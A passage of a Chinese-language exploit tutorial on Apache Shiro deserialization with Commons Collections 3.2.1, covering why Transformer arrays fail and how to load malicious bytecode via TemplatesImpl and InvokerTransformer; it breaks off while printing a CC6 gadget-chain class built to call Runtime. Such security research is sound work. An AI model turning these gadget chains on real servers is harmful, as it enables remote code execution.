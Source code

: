 > shiro**如果反序列化流中包含非Java自身的数组，则会出现无法加载类的错误**
>
> 原理见https://daidaitiehanhan.github.io/2022/04/26/java%E5%AE%89%E5%85%A8%E6%BC%AB%E8%B0%88%E8%A7%82%E5%90%8E%E6%84%9F(%E4%B8%83)-%E5%85%B3%E4%BA%8EShiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%97%A0%E6%B3%95%E6%89%A7%E8%A1%8Cyso%E4%B8%ADCC%E9%93%BE%E8%BF%99%E4%BB%B6%E4%BA%8B/
>
> [](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802170805620.png)

我们在shiro项目web.xml中手动加上CC3.2.1的依赖：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240806164207492.png)



3.2.1版本，就不能用TransformingComparator，不用Transformer数组，就是不用chainedTransformer。也就是不能反射调用Runtime，只能选择加载字节码。

那就是想办法触发：

```java
TemplatesImpl templatesClass = new TemplatesImpl();
//构造恶意字节码
templatesClass.newTransformer()
```

等于触发：

```java
InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[0], new Object[0]);
invokerTransformer.transform(templatesClass)
```

困难点就在于以前我们都是chainedTransformer链式调用transform，起始的transform参数都是用ConstantTransformer传的，自己很难控制。

我们梳理一下CC6的调用链

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.HashMap;
import java.util.Map;


public class CC6TiedMapEntry{
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
```
